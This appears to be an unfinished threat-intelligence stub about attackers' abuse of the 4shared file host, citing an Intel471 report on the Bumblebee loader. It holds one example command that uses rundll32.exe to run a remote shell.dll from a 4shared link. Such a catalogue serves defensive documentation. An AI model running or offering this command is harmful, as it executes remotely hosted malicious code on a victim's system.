 # 4shared

TODO: Fill in this info

```
C:\> rundll32.exe \\<4shared_link>\shell.dll,Main
```

---
## References

- [Bumblebee Loader Resurfaces in New Campaign](https://intel471.com/blog/bumblebee-loader-resurfaces-in-new-campaign)